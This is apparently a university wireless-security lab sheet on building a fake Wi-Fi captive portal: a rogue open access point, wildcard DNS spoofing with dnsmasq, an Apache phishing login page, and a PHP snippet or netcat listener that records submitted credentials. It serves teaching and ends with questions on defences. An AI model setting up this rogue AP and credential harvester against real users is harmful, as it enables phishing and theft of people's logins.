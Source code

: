 
## Module Code: 6CSEF005W  
**Module name:** Wireless Network Security  
**Lab activity:** Fake Captive Portal with DNS Spoofing  
**Author:** Dr Ayman El Hajjar  

---

# Lab: DNS Spoofing and Credential Harvesting via Captive Portal

---

### Objective

Simulate a fake Wi-Fi login page using DNS spoofing and a rogue AP.  
Users are redirected to a phishing page when attempting to browse the web.

---

## Requirements

- Raspberry Pi or Kali-based Rogue AP setup
- `dnsmasq`, `apache2`, `iptables`
- Phishing HTML page (`index.html`) saved in `/var/www/html`
- Target clients connecting via Open AP

---

## Step-by-Step Instructions

### 1. Launch Rogue AP (Open)

```bash
sudo ./setup_rogue_ap.sh
```

Make sure the AP is broadcasting an SSID like `FreeWiFi`.

---

### 2. Start dnsmasq for DHCP and DNS Spoofing

```bash
sudo dnsmasq -C /tmp/dnsmasq.conf
```

> The config should include:
```
address=/#/192.168.140.1
```

This forces all domain requests to redirect to the rogue AP.

---

### 3. Host a Fake Login Page

Ensure `/var/www/html/index.html` is a phishing page asking for username/password.

Start Apache:

```bash
sudo systemctl start apache2
```

---

### 4. Capture Submitted Credentials

Use a simple PHP logger or netcat listener:
```bash
sudo nc -lvp 4444
```
Or setup:
```php
<?php
file_put_contents("/tmp/creds.txt", print_r($_POST, true), FILE_APPEND);
?>
```

---

## Discussion Points

- How realistic was the login page?
- What protections would stop this?
- Would DNS over HTTPS (DoH) have worked?

---

## Teardown

```bash
sudo ./teardown_ap.sh
sudo systemctl stop apache2
sudo pkill dnsmasq
```

---

## Optional Screenshots

Store in `tasks/img/`:
- Fake portal login page
- DNS redirection in Wireshark
- Captured credentials

---

## Summary

| Component  | Tool       | Purpose                         |
|------------|------------|----------------------------------|
| Rogue AP   | `hostapd`  | Broadcasts fake SSID            |
| DNS spoof  | `dnsmasq`  | Redirects all domains           |
| Web server | `apache2`  | Hosts phishing login page       |
| Logging    | `netcat` or PHP | Captures credentials      |

---
